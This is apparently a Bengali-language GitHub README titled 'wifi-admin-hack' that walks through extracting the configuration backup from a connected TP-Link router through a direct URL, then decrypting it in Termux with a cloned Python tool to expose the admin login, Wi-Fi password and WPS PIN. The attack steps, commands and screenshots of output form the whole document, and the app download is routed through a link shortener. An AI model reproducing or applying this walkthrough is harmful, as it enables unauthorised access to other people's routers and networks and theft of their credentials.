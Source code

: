 ### স্বাগতম আপনাকে, এর নতুন আরেকটি command এ। আজ দেখাবো কানেক্ট থাকা TP-Link রাউটারের পাসওয়ার্ড কিভাবে বের করতে হয় Config.bin ফাইল Extart করে। 
এটা আমরা Termux এর মাধ্যমে করবো। 

আমরা রাউটারের অ্যাডমিন প্যানেল এর Username & Password দেখতে পারবো Config.bin ফাইল এর মাধ্যমে। এমনকি wps pin ও দেখা যাবে এটার মাধ্যমে। 

![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/b0050088-e78e-46fc-981d-a045ea4f2c0f)


তো চলুন শুরু করি :

### 1. প্রথমে নিচের লিংক থেকে এপ্প টা ডাউনলোড করে নিন ?
https://exe.io/9Hkrn
### 2. ইনস্টল করে ওপেন করুন এবং ল্যাঙ্গুয়েজ English সিলেক্ট করুন ?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/11817e6c-8c51-4476-91ec-becc545f96a7)

### 3. পার্মিসন Allow করুন?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/266c269f-b2e0-4321-aabc-9120a953c148)

### 4. এরপর  Select এ ক্লিক করুন ?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/8ab354f7-b4af-40ae-b7d9-c9a63c899524)

### 5. প্লাস আইকনে ক্লিক করুন ?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/92667928-d08e-4cf7-aafa-1edd24448a1a)

### 6. Add Link এ ক্লিক করুন ?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/466984a6-6926-4735-bebc-5f611f4440cc)

### 7. এরপর উপরের ফাঁকা বক্সে http://192.168.0.1/cgl/conf.bin? টাইপ করে Connect এ ক্লিক করুন?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/ef72e729-5ad2-4df3-a647-9e151306ddad)

### 8. এরপর Start এ ক্লিক করুন ফাইল টা  ডাউনলোড হয়ে যাবে ?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/e36653fc-90e3-4b9c-aaa1-19ee723d8a96)


### 9. ডাউনলোড করা ফাইল টা ইন্টারনাল স্টোরেজের হোম ডিরেক্টরি তে রাখুন?
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/75bb4aeb-7f7a-4eb2-b124-965edd8208fa)

### 10. এখন আমাদের Termux এ যেতে হবে এবং নিচের কম্যান্ড গুলা একটা একটা করে এন্টার করতে হবে ?








### command 
To check for updates and update, run the following command:
```
termux-setup-storage

    apt update -y

    apt upgrade -y

    pkg install git -y

    pkg install python -y

    pip install pycryptodome

    git clone https://github.com/sta-c0000/tpconf_bin_xml

    cd tpconf_bin_xml

    ls

    python tpconf_bin_xml.py /sdcard/conf.bin 1.xml

    ls 

```
### এটা এন্টার করলে নিচের মতো আসবে 
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/5e4c2408-14ee-4290-b88d-4f3e92bb265d)

```
cat 1.xml
```
### এটা এন্টার করার পর নিচের মতো ইন্টারফেস শো হবে, যেখানে রাউটারের সব ইনফরমেশন থাকবে।
এখানে Device Password হলো  Wifi Password এবং  PreShareKey হলো WPS  পিন।
![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/efd25eee-d924-4aff-a351-40f36a4ec7f9)

### এবং তার নিচে রাউটারের Username & Password দেখতে পাবেন।

![image](https://github.com/Gtajisan/wifi-admin-hack/assets/124022055/06b4f573-6957-402e-8ca0-9781c654bf57)


